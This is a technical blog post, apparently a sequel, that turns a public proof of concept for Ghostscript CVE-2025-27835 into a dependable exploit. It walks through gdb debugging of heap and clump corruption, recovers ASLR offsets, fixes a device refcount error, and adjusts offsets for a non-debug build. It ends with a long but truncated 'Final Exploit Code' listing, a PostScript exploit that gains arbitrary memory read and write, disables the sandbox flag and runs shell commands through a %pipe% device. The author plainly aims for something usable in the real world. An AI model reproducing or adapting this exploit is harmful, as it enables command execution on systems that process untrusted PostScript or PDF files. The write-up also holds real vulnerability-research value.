





This article continues off of the **PoC Report of Ghostscript CVE-2025-27835** article before this one. I recommend reading that article first to understand the vulnerability and the exploit.

<!--  -->

If you remember from the previous article, the goal was to make the exploit useful in a real-world scenario as if someone wanted to use it. The original PoC ended with an infinite loop after command execution and would segfault when the infinite loop was rmeoved. Although we theorized some ideas, we were not able to figure out how to make it work as we ran out of time, so I decided to continue working on it just for fun.

## Understanding the Crash

The first step was to understand why the exploit would crash after command execution. I started by commenting out/removing the infinite loop at the end of the exploit and running it until the crash in gdb. When running a postscript file in Ghostscript, most of the work is done in `interp` function inside `interp.c`. from parsing the input to defining variables and executing operators on them. When the interpreter detects that it should stop (such as with the `quit` operator) it returns from the `interp` function back to `main`.

```c
// /psi/gs.c

68  int main(int argc, char *argv[]) {
...
94      if (code >= 0)
95          code = gsapi_init_with_args(minst, argc, argv);
...
119     if (code == 0)
120         code = gsapi_run_string(minst, start_string, 0, &exit_status);
121
122     exit_status = gsapi_exit(minst);
123     if( code >= 0 && exit_status < 0)
124         code = exit_status;
...
150     return exit_status;
151 } 
```

The `interp` function is called from `gsapi_init_with_args` in line 95 of `gs.c` which is where most of the code execution happens from the PoC. When Ghostscript gets to the `quit` operator at the end of the PoC, it returns from `interp` back to `main` and then calls `gsapi_exit` in line 122 to invoke the garbage collector and free all allocated memory before gracefully exiting.

```postscript
(exec) = flush
(%pipe%ls -laf) (w) file

(done) =
%{ 1 pop } loop

quit
```

Stopping at the line before the crash and looking at the backtrace it seems the issue is happening in `gc_objects_clear_marks`. 



```c
605 /* Unmark the objects in a clump. */
606 static void
607 gc_objects_clear_marks(const gs_memory_t *mem, clump_t * cp)
608 {
609     if_debug_clump('6', mem, "[6]unmarking clump", cp);
610     SCAN_CLUMP_OBJECTS(cp)
611         DO_ALL
612         struct_proc_clear_marks((*proc)) =
613         pre->o_type->clear_marks;
614 #ifdef DEBUG
615     if (pre->o_type != &st_free)
616         debug_check_object(pre, cp, NULL);
617 #endif
618     if_debug3m('7', (const gs_memory_t *)mem, " [7](un)marking %s(%lu) "PRI_INTPTR"\n",
619                struct_type_name_string(pre->o_type),
620                (ulong) size, (intptr_t)pre);
621     o_set_unmarked(pre);
622     if (proc != 0)
623         (*proc) (mem, pre + 1, size, pre->o_type);
624     END_OBJECTS_SCAN
625 }
```

The segfault occurs when attempting to run line 612:

`struct_proc_clear_marks((*proc)) = pre->o_type->clear_marks;`


The comment above the function says that its purpose is to unmark objects in a clump. From the last article, I know that clumps are large allocations for objects that Ghostscript manages such as large buffers or arrays for Postscript defined variables. Printing out the data sturcture of a clump shows:


I wasn't really sure what each field meant or what it was for. So I decided to look into the line that crashed. There are a lot of macros in the code that I couldn't understand but gdb has a really useful command called `macro expand` that can be used to expand macros (if I recall correctly, this command only works when debugging with the `-g3` flag). Expanding lines 610 to 613 where the crash happens shows:

```c
obj_header_t *pre = (obj_header_t *)((cp)->cbase);
obj_header_t *end = (obj_header_t *)((cp)->cbot);
uint size; 

for ( ; 
    pre < end; 
    pre = (obj_header_t *)((char *)pre + (obj_size_t)((((size) + sizeof(obj_header_t)) + (((((((8 - 1) | (8 - 1) | (8 - 1)) + 1) - 1) | ((1 << 3) - 1) | ((1 << 1) - 1)) + 1)-1)) & -((((((8 - 1) | (8 - 1) | (8 - 1)) + 1) - 1) | ((1 << 3) - 1) | ((1 << 1) - 1)) + 1)))
    ) {
        size = ((pre)->d.o.size);
        struct_proc_clear_marks((*proc)) = pre->o_type->clear_marks;
    }
```

The `SCAN_CLUMP_OBJECTS` macro is used to iterate over all objects in a clump until the end of the clump is reached. The `DO_ALL` macro is used to set the `size` variable to the size of the current object. At the start, `pre` is set to the clump's `cbase` field which I can only assume is the start of the clump in memory and the `end` variable is set to the clump's `cbot` field which I'm also assuming is the end of the clump in memory. When looking at the data type of `cbase` and `cbot` they are both `byte*` but the macro is casting them to `obj_header_t*`. Looking at the `obj_header_t` struct shows its just a union:


The union is filled with many more data types that I would need to manually print out since `ptype` does not recursively print out the data types. So I'll just print out `pre` with its type next to it in parenthesis from the `ptype` command:

```c
pwndbg> p *pre
$3 = {
  (union _d) d = {
    (obj_header_data_t) o = {
      (union _f) f = {
        (struct _h) h = {
          (unsigned int) alone = 0,
          (unsigned int) pad = 0
        },
        (struct _m) m = {
          (unsigned int) _ = 0,
          (unsigned int) smark = 0
        },
        (struct _b) b = {
          (unsigned int) _ = 0,
          (unsigned int) back = 0
        }
      },
      (obj_size_t) size = 1400,
      (union _t) t = {
        (gs_memory_type_ptr_t) type = 0x555557676ac0 <st_alloc_save>,
        (size_t) reloc = 93825026976448
      }
    },
    (byte) _pad = "\000\000\000\000x\005\000\000\300jgWUU\000"
  }
}
```

Knowing this, I can see that after `size` is set to `pre->d.o.size`, the next line that crashes is attempting to set a function pointer `proc` to `pre->d->o->t->type`. In the output above, that pointer is set to `st_alloc_save` and the output is from a valid clump before the crash. 

Looking at `pre` right before the crash shows that something is wrong:


`pre` is set to all zeros which means that the `cbase` field of the clump is set incorrectly. Since I didn't know why this was happening, it's time to go up to the caller of this function.

```c
// /psi/igc.c

267 for_collected_spaces(ispace)
268     for_space_clumps(ispace, mem, cp, &sw) {
269         gc_objects_clear_marks((const gs_memory_t *)mem, cp);
270         gc_strings_set_marks(cp, false);
271     }

```

Again, more macros. Expanding the macros shows:

```c
for (ispace = min_collect; ispace <= max_trace; ++ispace) {

    for (mem = space_memories[ispace]; mem != 0; mem = &mem->saved->state) {

        for (cp = clump_splay_walk_init(&sw, mem); cp != 0; cp = clump_splay_walk_fwd(&sw)) {

            gc_objects_clear_marks((const gs_memory_t *)mem, cp);
            gc_strings_set_marks(cp, false);

        }
    }
}
```

Since `cbase` is corrupted, that means that the clump itself is corrupted. The for loop is iterating over all clumps in all memory spaces and clearing the marks on all objects in the clump. `cp` is originally set from `clump_splay_walk_init` and iterated on by the `clump_splay_walk_fwd` function. A splay tree is a type of data structure that moves recently accessed nodes closer to the root of the tree for faster access which Ghostscript seems to use for clumps. I won't go into the details of how Ghostscript uses splay trees but I will say that when setting the next clump with `clump_splay_walk_fwd`, it sets `cp` to an invalid pointer meaning that the pointer to the next clump is corrupted meaning that the splay tree is corrupted.

How did this happen? Well I went up the call stack again to the caller to see what is wrong but with no luck. I scraped this idea and thought of a different approach. Since I now know that a pointer to a clump is corrupted, I knew this had to be because of the buffer overflow. So I went back and looked at the hexdump of the memory between `SOURCE1` and `SOURCE2` before and after the buffer overflow.

## A New Approach

As a brief aside, I am using and have been using gdb with ASLR off so that I can get consistent addresses and know where everything is in memory across multiple runs which is why pointers in images always look similar. 


So the corrupted pointer is one of the 5 pointers in the image above. The most logical thing for me to do next was to set the memory back to what it was before the overflow after the overflow. I set a breakpoint right before the overflow, printed the hexdump, moved to the next instruction, and then set the memory back to what it was before the overflow.

```c
set {long} 0x7ffff3688008=0x00000000004c5002
set {long} 0x7ffff3688010=0x0000555557acff70
set {long} 0x7ffff3688018=0x0000555557acfd70
set {long} 0x7ffff3688020=0x00000000004c4b78
set {long} 0x7ffff3688028=0x000055555702ba00
set {long} 0x7ffff3688030=0x0000555556e6b671
```

And it seemed to work:


Why does this work? Well, I stopped at the line that would usually crash the program after I set the memory back to what it was before the overflow and `cp` was set to a valid pointer meaning `pre` was also valid. I'm not sure how I didn't catch this earlier but the pointer that caused `cbase` to be corrupted was the address `0x7ffff3688058`. And if you look at the hexdump above, that address is one of the 5 pointers that are overwritten by the overflow.

**Corrupted cp pointer:**


**Fixed cp pointer after setting the memory back:**


**pre after fixing corrupted pointer:**


So this means that the overflow fills up the header/metadata of a clump between SOURCE1 and SOURCE2, causing it to crash when the garbage collector attempts to remove the marks from each clump after it attempts to access a corrupted clump.

Printing out `cp` shows that address `0x7ffff3688058` is `cbase` but it also shows that `0x7ffff3688040` is `chead`. I don't know what `chead` is since the hexdump shows there is no data between `0x7ffff3688040` and `0x7ffff3688058`, its just filled with zeros. But this checks off what one of the 5 unknown pointers in the hexdump above.

## Writing to Arbitrary Memory

### Getting the Address to Write To
Great, the next step was to write Postscript after the command execution to get Ghostscript to exit gracefully. The exploit author has already defined custom function `ptradd`, `copystr`, `arbwr`, and `arbrd`. The first step is getting a variable to store the pointer to where I want to write which is `0x7ffff3688008`. I can use the `ptradd` function to do this but I have no idea what to add to or how much to add since I don't know what some of the other variables such as `head` and `next` when it was disabling the flag.

Since the first pointer in that hexdump is at `0x7ffff3688010`, I decided to try to get a Postscript variable to hold that address. After lots of searching in gdb, I found all pointer chains that led to that address:

```
0x5555579bf478 —▸ 0x555557c1f6d0 —▸ 0x555557af9030 —▸ 0x555557a14c80 —▸ 0x555557af8e30 —▸ 0x555557af82e0 —▸ 0x555557af81e0 —▸ 0x7ffff3688010

0x555557af9038 —▸ 0x555557c1f6d0 —▸ 0x555557af9030 —▸ 0x555557a14c80 —▸ 0x555557af8e30 —▸ 0x555557af82e0 —▸ 0x555557af81e0 —▸ 0x7ffff3688010

0x7ffff3688018 —▸ 0x555557af81e0 —▸ 0x7ffff3688010

0x555557af8f38 —▸ 0x7ffff3688010
```

Now I needed to check if any of the Postscript vairables in the exploit were pointing to any of these addresses after overwriting the flag. Sadly, none of the variables were pointing to any of these addresses. If you remmeber from the previoud article, I printed out the entire linked list of the malloc chunk header that the exploit traverses to disable the flag. The string that the exploit is looking for `gs_lib_ctx_init(core)` ends up being in the third to last malloc chunk in the linked list, which leaves `head` pointing to the third to last malloc chunk header pointer in the linked list and `next` pointing to the second to last.


This is corroborated by the fact that the values of `next` and `head` are the correct pointers `0x5555579bf520` and `0x5555579bf610` respectively:


After no luck of having any of the variables be a pointer I needed, I went back to looking at the malloc chunk header linked list. I noticed that the value of `0x5555579bf4b0` of the last chunk or the value of `next` of the penultimate chunk is close to the value of the first pointer in the first pointer chain from earlier (`0x5555579bf478`). I tested with ASLR on and off and the difference between these two values is always `0x38` which means I can reliably use it. So I added to the exploit code to iterate through the linked list once more which gets `next` to point to `0x5555579bf478`. After that I call `ptradd` on `next` to add `-56` to it which gets me to the address `0x5555579bf4b0`.

```postscript
(%pipe%ls) (w) file

(done) = flush
%{ 1 pop } loop

/head next def
head next arbrd

/ptr3 next -56 ptradd def
```


After getting `next` to hold the first pointer in the chain, I just need to walk the pointer chain and keep dereferencing the pointer until I reach the pointer that points to the overflowed address. As a reminder this is the pointer chain I'm walking:

```
0x5555579bf478
      ↓
0x555557c1f6d0
      ↓
0x555557af9030
      ↓
0x555557a14c80
      ↓
0x555557af8e30
      ↓
0x555557af82e0
      ↓
0x555557af81e0
      ↓
0x7ffff3688010
```

A simple for loop in Postscript similar to the one used to walk the malloc chunk header linked list works:

```postscript
/ptr3 next -56 ptradd def
/buf2 8 string def

8 {

    ptr3 buf2 arbrd
    /ptr3 buf2 def

} repeat
```


### Writing to the Address

Great, now I have a Postscript variable `ptr3` and `buf2` that holds the address of where to write to. Next is figuring out what to write. Easy, for now I can just copy what the hexdump showed was there before the overflow, and then do this for all 5 pointers plus the 3 clumps of bytes in between using the `ptradd` and `arbwr` functions. There was probably a better way to do this but I just wanted to get it working:

```postscript
ptr3 <308faf5755550000> arbwr

/ptr4 ptr3 -8 ptradd def
ptr4 <02504c0000000000> arbwr

/ptr5 ptr3 16 ptradd def
ptr5 <784b4c0000000000> arbwr

/ptr6 ptr3 24 ptradd def
ptr6 <00ba025755550000> arbwr

/ptr7 ptr3 32 ptradd def
ptr7 <71b6e65655550000> arbwr

/ptr8 ptr3 72 ptradd def
ptr8 <01000000504b4c00> arbwr

/ptr9 ptr3 80 ptradd def
ptr9 <6064035755550000> arbwr
```

Since `ptr3` held the address `0x7ffff3688008`, I just used `ptradd` to add the correct offset to get the other memory locations to write to. After this, I ran the exploit to completion in gdb:


I added some print statements in there for debugging purposes but what does that second to last line say?

`Error: finalizing subclassing device while child refcount > 1`

This is a new error that I haven't seen before and its weird that it shows up now but it didn't when I manually set the memory back to what it was before the overflow using gdb. Regardless, the program did not crash and exited gracefully. Also I should mention, even though I iterated once more in the malloc chunk header linked list, I actually could have just used the `head` or `next` variable since they were already close and at the same offset away. The reason I didn't do this was I had thought that the `ptradd` function only worked for adding or subtracting at most a byte in which I could have just called `ptradd` in a loop to get the desired pointer. This is why I searched for a pointer that was closer to the address but its too late now.

## Turning ASLR On

Although I achieved my goal of getting Ghosscript to not crash, it's still not usable since this is all done with ASLR off. The next step was obvious, stop hardcoding the 5 pointers and figure out what they were before the overflow. The custom defined functions `copystr`, `ptradd`, `arbwr`, and `arbrd` don't work until the overflow happens since they work on strings and the overflow is what allows me to write to arbitrary memory since it changes the type of `OBJARR` to a string. This means that there is no way of determining the values of the 5 pointers before the overflow happens and I had to figure out what they were after the overflow. I tried searching for the values of the pointers in gdb after the overflow and I couldn't find a single thing, not even one pointer.

It was at this point I thought about just leaving it at that and having this be a ASLR off exploit. But something told me that this was still possible so I kept digging and I'm glad I did. I went back to the hexdump before and after the overflow to see if there was anything similar that I was missing and that's when I saw it:

**Before:**


**After:**


Although none of the pointers in the hexdump after were originally in the hexdump before, there is a pointer in the after hexdump that is very close to one in the before hexdump. The pointer at address `0x7ffff3688018` before the overwrite is also at `0x7ffff373efe0` after the overwrite but with a difference of `0x400`. I eagerly enabled ASLR to see if this was the case and the pointer was always `0x400` away each time. If I can read what's at that address, then I can easily get the value of the pointer to set it back. 

Not only that, the values before the overwrite at addresses `0x7ffff3688010` (`0x555557af8f30`) and `0x7ffff3688018` (`0x555557af81e0`) are also always at a difference of `0xD50` away from eachother. So this means once I get the value at address `0x7ffff373efe0`, I can also set the value of the pointer that goes before it.

Now this is great an all, but theres still 3 more pointers that I need to figure out as well as the 3 clumps of bytes in between. Luckily I printed out whats at the addresses before the overflow and pwndbg easily resolves these pointers to symbols:


The two pointers at `0x7ffff3688010` and `0x7ffff3688018` are the ones I already mentioned. For the next two pointers, pwndbg resolves them as global variables `(st_bytes)` and `'large object clump'` which are also always at the same offset from the base address. The problem is that I don't know the base address, I can only arbitrarily read and write. So how am I going to figure out what this pointer is each time? Well, I printed out the memory that the hexdump after the overflow identifies and noticed something else useful:



Well thats not useful, the data got copied at a weird offset. Let's take a look at it shifted up 2 bytes:


Well, `(st_bytes)` is present in the memory after the overflow so thats an easy fix. And although `'large object clump'` is not present, `'large_string_clump'` is which is now a known global variable. Since I now always know where `'large_string_clump'` is, I can just calculate the offset to `'large object clump'` which is `0x13`.

Theres one more pointer left, the one at `0x7ffff3688060` which pwndbg resolves to `(st_refs)`. I can use the same trick I did to get the address of `'large object clump'` using the address of `(st_bytes)`. The difference between the two is `0xAA60`. 

Now that all 5 pointers have been identified and I have a way of getting their values, the next thing is to figure out what those 3 clumps of bytes are in between the pointers. This turned out to be very easy as first clump of bytes is `0x4c5002`, and when I checked with ASLR that value was always the same so I can just harcode it. The next clump of bytes is `0x4c4b78` which is also always the same like the first clump. And the same thing goes for the last clump of bytes which is `4c4b5000000001`. I don't know what these values are for or what they represent, I just know that they are always the same so I can just hardcode them in the exploit.

There is one more interesting finding before I begin showing how I fixed the exploit. For some reason, the pointer `0x555557af81e0` seems to reappear after the overflow at address `0x7ffff3688018` which is where it was before the overflow. I don't know why this is the case or when this happens but now I can use it instead of grabbing that same pointer at `0x7ffff373efe0` and subtracting `0x400` from it


The first thing I did was get the reappeared pointer at `0x7ffff3688018` and subtract `0xD50` from it to get the pointer at `0x7ffff3688010`.

```postscript
/ptr4 ptr3 8 ptradd def

/buf3 8 string def
ptr4 buf3 arbrd

/buf4 buf3 3408 ptradd def

ptr3 buf4 arbwr
```

First, `ptr3` holds the value of the address `0x7ffff3688010` or the first pointer in the hexdump after the overflow. Then I set `ptr4` to `ptr3 + 8` which is `0x7ffff3688018`. A new variable `buf3` is created and hold the pointer at `ptr4` using `arbrd`. Now that `buf3` holds the pointer at `0x7ffff3688018`, I can use `ptradd` to add `0xD50` to `buf3` to get the pointer at `0x7ffff3688010` and store it in `buf4`. Finally, I write the value of `buf4` to `ptr3` which is the first pointer in the hexdump after the overflow.

The next step is to fix the two memory clumps before and after those two pointers which is straightforward:

```postscript
/ptr5 ptr3 -8 ptradd def
ptr5 <02504c0000000000> arbwr

/ptr6 ptr3 16 ptradd def
ptr6 <784b4c0000000000> arbwr
```

This just subtracts 8 and adds 16 to `ptr3` to get the addresses of the two clumps of bytes and writes the values to them since they are always the same. 

The next step is to set `(st_bytes)` and `('large object clump')` to the correct values. Both follow the same pattern:

```postscript
/ptr7 ptr3 24 ptradd def
/buf5 8 string def
ptr3 749546 ptradd buf5 arbrd
ptr7 buf5 arbwr

/ptr8 ptr3 32 ptradd def
/buf6 8 string def
ptr3 749554 ptradd buf6 arbrd
ptr8 buf6 19 ptradd arbwr
```

Again I add from `ptr3` to get the addresses of the two pointers to write to. Then I read the value at `ptr3 + 749546` which is the address of `(st_bytes)` at `0x7ffff373effa`, store it in `buf5`, and write it to `ptr7`. The same thing is done for but this time it gets the address of `'large string clump'` at `0x7ffff373f002` and stores it in `buf6`. After that I add `0x13` to `buf6` to get the address of `'large object clump'` and then write it to `ptr8`.

Then I fix the last clump of bytes at `0x7ffff3688058` like before:

```postscript
/ptr9 ptr3 72 ptradd def
ptr9 <01000000504b4c00> arbwr
```

The last thing to do is set `(st_refs)` to the correct value which I do by getting the address of `(st_bytes)` and adding `0xAA60` to it:

```postscript
/ptr10 ptr3 80 ptradd def
ptr10 buf5 43616 ptradd arbwr
```

I used `buf5` since it already holds the address of `(st_bytes)`.

Now if I test the exploit with ASLR on, it works!


But I stil get the same refcount error as before. My first thought was can I overwrite a function pointer so that Ghostscript just terminates without even getting the chance to show me the error? I quickly scraped that idea. I wasn't sure if this was being printed because I compiled Ghostscript with debug symbols or if it was actually an error so I investigated it. If I try to run the exploit but with the Postscript file in a different directory, instead of a refcount error I get a segfault:


## Fixing the Refcount Error

I found the line where the error was being printed in:

```c
0  restore_finalize (mem=0x5555579c2248) at ./psi/isave.c:954
1  0x0000555556392e7a in alloc_restore_all (i_ctx_p=0x5555579f34a8) at ./psi/isave.c:899
2  0x000055555632a46d in gs_main_finit (minst=0x5555579bfd90, exit_status=0, env_code=0) at ./psi/imain.c:1407
3  0x000055555632a772 in gs_to_exit_with_code (mem=0x5555579bf390, exit_status=0, code=0) at ./psi/imain.c:1450
4  0x000055555632a79d in gs_to_exit (mem=0x5555579bf390, exit_status=0) at ./psi/imain.c:1455
5  0x000055555633100d in psapi_exit (ctx=0x5555579bf550) at ./psi/psapi.c:517
6  0x000055555646b84c in gsapi_exit (instance=0x5555579bf550) at ./psi/iapi.c:440
7  0x000055555581419d in main (argc=5, argv=0x7fffffffe2f8) at ./psi/gs.c:122
```

This happens in the `restore_finalize` function in `isave.c`:

```c
// /psi/isave.c

/*
 * Finalize objects that will be freed by a restore.
 * Note that we must temporarily disable the freeing operations
 * of the allocator while doing this.
 */
937 static void
938 restore_finalize(gs_ref_memory_t * mem)
939 {
940     clump_t *cp;
941     clump_splay_walker sw;
942 
943     alloc_close_clump(mem);
944     gs_enable_free((gs_memory_t *) mem, false);
945     for (cp = clump_splay_walk_bwd_init(&sw, mem); cp != 0; cp = clump_splay_walk_bwd(&sw)) {
946         SCAN_CLUMP_OBJECTS(cp)
947              DO_ALL
948             struct_proc_finalize((*finalize)) =
949             pre->o_type->finalize;
950         if (finalize != 0) {
951             if_debug2m('u', (gs_memory_t *)mem, "[u]restore finalizing %s "PRI_INTPTR"\n",
952                        struct_type_name_string(pre->o_type),
953                        (intptr_t) (pre + 1));
954             (*finalize) ((gs_memory_t *) mem, pre + 1);
955         }
956         END_OBJECTS_SCAN
957     }
958     gs_enable_free((gs_memory_t *) mem, true);
959 }
```

This actually looks very similar with the same macro calls as the `gc_objects_clear_marks` function that I looked at earlier. This time, its going through all the objects in a clump and calling the `finalize` function on each object. Printing out the value of `finalize` on the line of the crash shows:


Since the string that is being printed is not in this function, it must be in the `default_subclass_finalize` function.

```c
// /base/gdevsclass.c

871 void default_subclass_finalize(const gs_memory_t *cmem, void *vptr)
872 {
873     gx_device * const dev = (gx_device *)vptr;
874     generic_subclass_data *psubclass_data = (generic_subclass_data *)dev->subclass_data;
875     (void)cmem; /* unused */
876 
877     discard(gs_closedevice(dev));
878 
879     if (dev->finalize)
880         dev->finalize(dev);
881 
882     /* The only way we should get here is when the original device
883      * should be freed (because the subclassing device is pretending
884      * to be the original device). That being the case, all the child
885      * devices should have a reference count of 1 (referenced only by
886      * their parent). Anything else is an error.
887      */
888     if (dev->child != NULL) {
889         if (dev->child->rc.ref_count != 1) {
890             dmprintf(dev->memory, "Error: finalizing subclassing device while child refcount > 1\n");
891             while (dev->child->rc.ref_count != 1)
892                 rc_decrement_only(dev->child, "de-reference child device");
893         }
894         rc_decrement(dev->child, "de-reference child device");
895     }
896 
897     if (psubclass_data) {
898         gs_free_object(dev->memory->non_gc_memory, psubclass_data, "gx_epo_finalize(suclass data)");
899         dev->subclass_data = NULL;
900     }
901     if (dev->stype_is_dynamic)
902         gs_free_const_object(dev->memory->non_gc_memory, dev->stype,
903                              "default_subclass_finalize");
904     if (dev->icc_struct)
905         rc_decrement(dev->icc_struct, "finalize subclass device");
906     if (dev->PageList)
907         rc_decrement(dev->PageList, "finalize subclass device");
908     if (dev->NupControl)
909         rc_decrement(dev->NupControl, "finalize subclass device");
910 }
```

The string is printed on line 890 and the comment above even says that this is an error. The reason why this is happening is because the child device has a reference count greater than 1 which means that the child device is still being used by something else. This is not a problem with the exploit, its just Ghostscript's way of saying that the child device is still being used by something else and it can't finalize it yet. This is actually a really easy fix, all I need to do is find where `dev->child->rc.ref_count` is in memory and set the reference count to 1.

For some reason, gdb doesn't show the source code for `default_subclass_finalize` so I had to look at the disassembly. I see that line 877 calls `gs_closedevice` with `dev` as the argument and pwndbg shows me when the function is called as well as the address of the argument:



`dev` is a pointer to a `gx_device` struct which is very large and has many fields. For this reason, I will not show it but I will show the relevant fields:



The `child` field is a pointer to another `gx_device` struct and you can see that the `rc` struct is also there. Printing out the value of `dev->child->rc` shows:

child->rc' in gdb" style="display:block; margin:auto;">

Theres the issue, the reference count is `3` which is greater than `1`. Printing the address of `dev->child->rc` with no ASLR shows that its at address `0x555557aa1530`:

child->rc in gdb" style="display:block; margin:auto;">

At this point, I start going back to the exploit code and looking at the values of the variables I created and looking to see if one of them was at a constant offset from `dev->child->rc`. It turns out that address `0x555557af8f30` is always at a constant offset of `0x57A00` from ``dev->child->rc`. I tested it with and without ASLR:

**Without ASLR:**
`0x555557af8f30 - 0x555557aa1530 = 0x57A00`

**With ASLR:**
`0x56ed00b8af30 (buf4) - &$dev->child->rc = 0x57A00`

`0x555557af8f30` is the address that I wrote to `ptr3` earlier in the exploit code so I can just use the variable `buf4` since it always holds that address. So now I can just subtract `0x57A00` from `buf4` to get the address of `dev->child->rc` and then write `1` to the `ref_count` field:

```postscript
buf4 -358912 ptradd <01> arbwr
```

Im not really sure why the refcount is increased when I set the memory back before the overflow since I had already changed everything back to what it was. I even looked at the hexdump after the overflow to see if there was a random 3 since `rc.ref_count` was always 3 but I couldn't find anything. Regardless, this fixes the error and now the exploit works with ASLR on:



## Removing Debug Symbols

They only thing left I can think of is recompiling Ghostscript with debug symbols disabled to see if it still works. To be honest, I didn't have high hopes for it working without debug symbols just because there is no way that the offsets stay the same considering `-g3` provides no optimization. But I will try it anyway:


Of coures it didn't work, and for the same reasons I thought it wouldn't. It took some time since I no longer had the source code to look at in gdb and I had to understand the optimized assembly that gcc generated. But I was able to figure out that the offsets two pointers needed to be changed. 

1. `3408` in `/buf4 buf3 3408 ptradd def` needed to be changed to `512`

2. `-358912` in `buf4 -358912 ptradd <01> arbwr` needed to be changed to `-190688`

After changing these two offsets, the exploit works with ASLR on and no debug symbols:


And now there you have it, a working Ghostscript exploit with ASLR on that works without debug symbols as if it was a real world exploit! Though this Ghostscript binary was compiled from source, modifying the exploit to work with the prebuilt binary shouldn't be too hard. Ghostscript also allows users to specify what features they want to compile in, and modifying the exploit to work with those features should be easy as well as its most likely just a matter of changing the offsets in the exploit code.

Unfortunately, when I tried running the exploit in different ways such as changing the directory of the Postscript to be different than the current directory or even changing the name of the Postscript file, the exploit would segfault. One thing became clear when I was testing the exploit in different scenarios, the difference between the pointer at `0x7ffff3688010` changes compared to `0x7ffff3688018`. This seems to be the only thing that changes and as far as I could tell, there was no way of getting the pointer at `0x7ffff3688010`. Instead of subtracting an offset from the pointer at `0x7ffff3688018`, a better way would be trying to find a pointer in memory that contains the address at `0x7ffff3688010`. This way, the exploit can work without having to hardcode the offset. I tried searching for the pointer at `0x7ffff3688010` in gdb and I found only one reference to it but it changes slightly across different runs. The next best thing would be trying to find a pointer that changes with the pointer at `0x7ffff3688018` or is somehow correlated to it and is always at a constant offset from it. This would require more research and looking at the Ghostscript source code and the data structures it uses. So for now I will leave it at that.

## Final Exploit Code

```postscript
% gs -q -sDEVICE=txtwrite -sOutputFile=/dev/null glyphunicode.ps

500000000 setvmthreshold

/REFIDX 249888 def
/REFOFS 3248640 def

/STROBJ 1000 string def
/ARROBJ 6250 array def
/OBJARR 32 array def
OBJARR 0 STROBJ put
OBJARR 1 ARROBJ put
/TARGET null def

/MAGIC null def
/STRPTR null def
/ARRPTR null def

% <dststr> <dstidx> <srcstr> <srcidx> <length> copystr -
/copystr {
    /_length exch def
    /_srcidx exch def
    /_srcstr exch def
    /_dstidx exch def
    /_dststr exch def
    _length {
        _dststr _dstidx _srcstr _srcidx get put
        /_srcidx _srcidx 1 add def
        /_dstidx _dstidx 1 add def
    } repeat
} bind def

% <string> <int> ptradd <string>
/ptradd {
    /_inc exch def
    /_ptr exch def
    /_new 8 string def
    0 1 7 {
        /_i exch def
        /_b _ptr _i get _inc add def
        /_inc _b -8 bitshift def
        _new _i _b 255 and put
    } for
    _new
} bind def

% <string-address> <string-buffer> arbrd -
/arbrd {
    /_buf exch def
    /_adr exch def
    STRPTR 0 _adr 0 8 copystr
    _buf 0 OBJARR 0 get 0 _buf length copystr
} bind def

% <string-address> <string-data> arbwr -
/arbwr {
    /_buf exch def
    /_adr exch def
    STRPTR 0 _adr 0 8 copystr
    OBJARR 0 get 0 _buf 0 _buf length copystr
} bind def

/DONE {
    /MAGIC TARGET REFIDX get def
    /STRPTR MAGIC 8 8 getinterval def
    /ARRPTR MAGIC 24 8 getinterval def

    (patch) = flush

    /arrptr 8 string def
    arrptr 0 ARRPTR 0 8 copystr

    {
        /arrsz 8 string def

        /next arrptr -40 ptradd -48 ptradd def
        next 16 ptradd arrsz arbrd
        arrsz <d886010000000000> eq { exit } if % 100056

        /next arrptr -56 ptradd -48 ptradd def
        next 16 ptradd arrsz arbrd
        arrsz <e886010000000000> eq { exit } if % 100072

        (unknown header layout) = quit
    } loop

    {
        /head next def

        /next 8 string def
        /cname 8 string def
        /cname_str 21 string def

        head next arbrd
        head 32 ptradd cname arbrd
        cname cname_str arbrd

        cname_str (gs_lib_ctx_init(core)) eq { exit } if
    } loop

    /buf 4 string def
    /ptr1 head 188 ptradd def
    /ptr2 head 204 ptradd def
    ptr1 buf arbrd buf <01000000> eq { ptr1 <00000000> arbwr } if
    ptr2 buf arbrd buf <01000000> eq { ptr2 <00000000> arbwr } if

    (exec) = flush
    (%pipe%ls) (w) file

    (done) = flush

    /head next def
    head next arbrd

    /ptr3 next -56 ptradd def
    /buf2 8 string def

    8 {

        ptr3 buf2 arbrd
        /ptr3 buf2 def

    } repeat

    /ptr4 ptr3 8 ptradd def

